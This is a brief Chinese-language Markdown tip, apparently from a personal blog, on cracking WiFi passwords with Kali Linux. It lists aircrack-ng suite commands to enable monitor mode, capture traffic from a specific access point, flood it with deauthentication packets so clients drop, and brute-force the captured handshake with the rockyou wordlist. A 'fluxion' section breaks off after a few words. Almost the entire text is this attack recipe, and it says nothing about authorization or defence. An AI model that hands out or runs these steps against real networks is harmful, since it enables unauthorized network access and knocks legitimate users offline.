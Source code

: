 ```yaml
---
categories: [Tips]
tags: Kali WiFi
---
```










1.   连接无线网卡: `ifconfig`, 
2.   开启无线网卡: `airmon-ng start wlan0`, 
3.   监听: `airodump-ng wlan0mon`, 
     -   `PWR`: 信号强度, 数字越低信号越强.
     -   `CH`: WiFi信道.
     -   
4.    `airodump-ng -c 1 --bssid FA:4C:1F:A0:19:8E  -w ~/ wlan0mon`, 
5.   发起反认证攻击:`aireplay-ng -0 10 -a FA:4C:1F:A0:19:8E wlan0mon`
     -   `-0`, 发送包的次数, 参数`0`为发送无数次.
6.   字典爆破(适合纯数字): `aircrack-ng -a2 -b FA:4C:1F:A0:19:8E -w /home/hep/rockyou.txt ~/*.cap`







# fluxion

由于这里是





[^1]:[已中止，xterm 测试会话失败。·问题 #1073 ·通量网络/通量 (github.com)](https://github.com/FluxionNetwork/fluxion/issues/1073#issuecomment-989594371);